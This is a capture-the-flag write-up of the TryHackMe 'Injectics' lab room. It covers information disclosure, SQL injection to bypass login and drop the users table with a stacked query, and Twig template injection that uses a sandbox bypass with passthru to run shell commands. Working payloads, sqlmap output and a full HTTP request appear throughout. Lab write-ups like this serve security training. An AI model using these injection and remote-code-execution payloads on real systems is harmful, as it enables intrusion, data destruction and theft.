 ```yaml
---
title: "Writeup: TryHackMe Injectics"
date: "2025-02-13T04:47:13.438Z"
slug: "writeup-tryhackme-injectics"
categories:
    - "writeups"
---
```


> [!info]
> - [Injectics](https://tryhackme.com/room/injectics)
> - Difficulty: medium
> - Platform: web
> 
> Can you utilise your web pen-testing skills to safeguard the event from any injection attack?
>
> Answer the questions below:
> 1. What is the flag value after logging into the admin panel?
> 2. What is the content of the hidden text file in the flags folder?


This room acts as a final challenge for the advanced injection attacks module. Vulnerabilities explored were:
- Information disclosure
- SQL injections
- Server-side template injection

{{< toc >}}

## Information gathering

I didn't go for the port scanning because it was evident that our focus was to find injection points in the web application.  

First, I checked the home page source code. It has interesting comments:

```html
<!-- Website developed by John Tim - dev@injectics.thm-->

<!-- Mails are stored in mail.log file-->
```

Next, I explored the website. The only working link on the home page is to the `/login.php` page which also has "Login as administrator" link to `/adminLogin007.php`. Both are loading `script.js` which handles input validation:

```js
...
const invalidKeywords = ['or', 'and', 'union', 'select', '"', "'"];
for (let keyword of invalidKeywords) {
	if (username.includes(keyword)) {
		alert('Invalid keywords detected');
	   return false;
	}
}
...
```

The script checks for SQL keywords, thus, it seems like a good place to try SQLi.

Before doing that, I opened `/mail.log` file mentioned in the comments:

```
From: dev@injectics.thm
To: superadmin@injectics.thm
Subject: Update before holidays

Hey,

Before heading off on holidays, I wanted to update you on the latest changes to the website. I have implemented several enhancements and enabled a special service called Injectics. This service continuously monitors the database to ensure it remains in a stable state.

To add an extra layer of safety, I have configured the service to automatically insert default credentials into the `users` table if it is ever deleted or becomes corrupted. This ensures that we always have a way to access the system and perform necessary maintenance. I have scheduled the service to run every minute.

Here are the default credentials that will be added:

| Email                     | Password 	              |
|---------------------------|-------------------------|
| superadmin@injectics.thm  | REDACTED                |
| dev@injectics.thm         | REDACTED                |

Please let me know if there are any further updates or changes needed.

Best regards,
Dev Team

dev@injectics.thm

```

Three important pieces here:
- There are two known users.
- Their info is stored in the table `users`.
- If something happens to the table, it gets recreated with the default credentials.

Just to be sure, I tried logging in with these credentials, but it wasn't successful. 

## Bypassing authentication: SQLi

I captured requests during login attempts with the Burp Suite. I copied them to files and used [sqlmap](https://sqlmap.org/) to find vulnerabilities. It could not detect anything for the administrator login page but successfully identified injection point for the normal login. 

```
$ sqlmap -r functions.req --level 4
...
sqlmap identified the following injection point(s) with a total of 1758 HTTP(s) requests:
---
Parameter: username (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 RLIKE time-based blind
    Payload: username=superadmin@injectics.thm' RLIKE SLEEP(5)-- MGux&password=&function=login
---
```

With the suggested payload, I logged into the dashboard.

> [!note]
> It's possible to achieve the same result with a simpler payload: `' || 1=1;-- -`


## Resetting users: SQLi

The dashboard provides the ability to edit the leader board. A`POST` request to `/edit_leaderboard.php` saves new data. Here I again used sqlmap to find vulnerable fields:

```
$ sqlmap -r edit.req --level 4
...
---
Parameter: gold (POST)
    Type: boolean-based blind
    Title: MySQL boolean-based blind - Parameter replace (MAKE_SET)
    Payload: rank=1&country=&gold=MAKE_SET(1637=1637,3031)&silver=21&bronze=12345
---
...

```

I did a lot of poking around trying to exploit it. Breakthrough moment came with a very simple payload `42;` which updated medals for all countries instead of the selected one. 

So, I was ready to reset users by dropping their table using payload `42; drop table users;`:


```
POST /edit_leaderboard.php HTTP/1.1
Host: MACHINE_IP
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://10.10.170.160/edit_leaderboard.php?rank=1&country=USA
Content-Type: application/x-www-form-urlencoded
Content-Length: 67
Origin: http://MACHINE_IP
Connection: keep-alive
Cookie: PHPSESSID=4jvgqrd1bqc47rqrv7m47id7q1
Upgrade-Insecure-Requests: 1
Priority: u=0, i

rank=6&country=&gold=0&silver=0&bronze=42; drop table users;

--- 

HTTP/1.1 200 OK
Date: Mon, 10 Feb 2_025 19:45:53 GMT
Server: Apache/2.4.41 (Ubuntu)
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Vary: Accept-Encoding
Content-Length: 127
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/html; charset=UTF-8

Seems like database or some important table is deleted. InjecticsService is running to restore it. Please wait for 1-2 minutes.
```

> [!note]
> As you noticed, both attempts at using sqlmap only complicated things. Try simple stupid things first!

## Getting the first flag
After the user table was restored, I logged in as an administrator using credentials found in `mail.log`. Here, in the dashboard, we can see our first flag: `THM{REDACTED}`.


## Reading hidden flag file: RCE via SSTI

Next flag should be in the flags directory. If you navigate to `/flags` while logged in as an administrator, you receive access denied error; thus, we need to find another way to access this directory.

There is a "Profile" button which leads to `/update_profile.php` page with three editable fields: email, first name, last name. Editing first name changes to the dashboard greeting.

By then, I was pretty confident that we had to find a SSTI vulnerability because (a) it was part of the module (b) it's simple enough to allow RCE. My first payload was `{{7*'7'}}` to confirm that it was Twig templating engine.

Exploitation proved difficult for me. While trying [different payloads](https://swisskyrepo.github.io/PayloadsAllTheThings/Server%20Side%20Template%20Injection/PHP/#twig) I quickly understood that we're in the sandbox. So I tried exploiting [CVE-2022-23614](https://nvd.nist.gov/vuln/detail/CVE-2022-23614) vulnerability that allows bypassing sandbox mode via `sort` function. I was on the right track but ended up looking for a hint, because functions `exec` and `system` did not work. [There I learned](https://jaxafed.github.io/posts/tryhackme-injectics/) about another useful function: `passthru`.



First, a payload to list files in the directory `flags`:

```
{{['ls flags',""]|sort('passthru')|join}}
```

And finally, to get the flag:

```
{{['cat flags/REDACTED.txt',""]|sort('passthru')|join}}
```

![Screenshot of the dashboard with displayed flags](dashboard.png)

